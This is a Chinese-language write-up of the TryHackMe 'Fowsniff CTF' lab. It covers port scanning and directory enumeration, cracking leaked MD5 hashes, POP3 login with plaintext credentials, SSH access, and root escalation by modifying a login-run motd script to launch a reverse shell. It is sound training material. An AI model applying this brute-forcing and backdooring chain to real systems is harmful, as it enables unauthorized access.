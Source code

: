 ```yaml
---
sidebar_position: 32
tags: [Easy, Linux, 密码学, SUID]
title: Fowsniff CTF
description: Fowsniff CTF
sidebar_label: Fowsniff CTF
slug: /tryhackme/32
---
```

# Fowsniff CTF
## 端口扫描
```bash
root@ip-10-10-22-151:~# nmap -sT -p- --min-rate 1000 10.10.183.152

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-22 09:12 BST
Nmap scan report for ip-10-10-183-152.eu-west-1.compute.internal (10.10.183.152)
Host is up (0.00031s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
MAC Address: 02:D6:F1:DC:29:D1 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.31 seconds
root@ip-10-10-22-151:~# nmap -sTCV -p 22,80,110,143 --min-rate 1000 10.10.183.152

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-22 09:13 BST
Nmap scan report for ip-10-10-183-152.eu-west-1.compute.internal (10.10.183.152)
Host is up (0.00019s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (EdDSA)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: UIDL SASL(PLAIN) CAPA USER RESP-CODES AUTH-RESP-CODE TOP PIPELINING
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: more capabilities ID AUTH=PLAINA0001 listed OK LOGIN-REFERRALS have IMAP4rev1 LITERAL+ IDLE post-login SASL-IR Pre-login ENABLE
MAC Address: 02:D6:F1:DC:29:D1 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.39 seconds
```

## 80 - HTTP
```bash
root@ip-10-10-22-151:~# gobuster dir -u http://10.10.183.152/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.183.152/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2023/08/22 09:17:29 Starting gobuster
===============================================================
/images (Status: 301)
/security.txt (Status: 200)
/assets (Status: 301)
/README.txt (Status: 200)
/robots.txt (Status: 200)
/LICENSE.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2023/08/22 09:18:37 Finished
===============================================================
```

结合网站的信息, 可以知道这个网站是被人黑了, 其中提到了推特, 我们前往推特进行搜索查看[FowsniffCorp](https://twitter.com/FowsniffCorp) 在下面我发现这一一段内容 

![20240601190115](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190115.png)

这告诉我是一个密码哈希, 我尝试解密但是一直找不出来, 然后我在上面发现黑客转储了所有用户密码

![20240601190126](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190126.png)

接着在上面我发现一个链接

![20240601190142](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190142.png)

进入后, 我发现这里给了一个链接告诉了我转储的用户哈希在哪里

![20240601190152](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190152.png)

这里提到使用的 MD5 加密所以我进行了破解

![20240601190202](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190202.png)

破解之后, 我想到的是进行 SSH 密码登陆但是没有任何效果, 所以我尝试去破解了 POP3 服务
### 110 - POP3

![20240601190218](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190218.png)

破解成功后我登陆该用户的 pop3 服务, 在其中发现了两个邮件, 其中一个邮件给出了我一个 SSH 密码

```bash
root@ip-10-10-22-151:~# telnet 10.10.183.152 110
Trying 10.10.183.152...
Connected to 10.10.183.152.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
.
RETR  1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,
....
The temporary password for SSH is "S1ck3nBluff+secureshell"
......

Thanks,
A.J Stone
```

上面邮件告诉了我是给哪些用户, 所以我直接进行暴力破解获取到了对映的用户

![20240601190235](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190235.png)

## 后渗透
### baksteen
```bash
root@ip-10-10-22-151:~# ssh baksteen@10.10.183.152
baksteen@10.10.183.152's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```
### baksteen --> root
这里我发现它是一个 users 用户组的, 所以我进行了枚举查看这个用户组有什么特殊的内容

![20240601190312](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190312.png)

我发现一个 Shell 文件, 所以我继续进行了查看文件内容如下:
```bash
baksteen@fowsniff:/opt/cube$ cat cube.sh 
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```
这个图案是不是似曾相识, 我们在登陆 SSH 的时候这个图案出现过, 那么说明在我们登陆时该程序会启动, 并且题目也告诉了我们应该去哪里进行, 我们查看对应的文件

```bash
baksteen@fowsniff:/etc/update-motd.d$ grep cube *
00-header:sh /opt/cube/cube.sh
```

现在我们只需要修改 cube.sh 文件, 并使用 Python 来进行获取 Shell, 

开启监听, 退出当前会话重新登陆就可以获取 root.sh

![20240601190336](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601190336.png)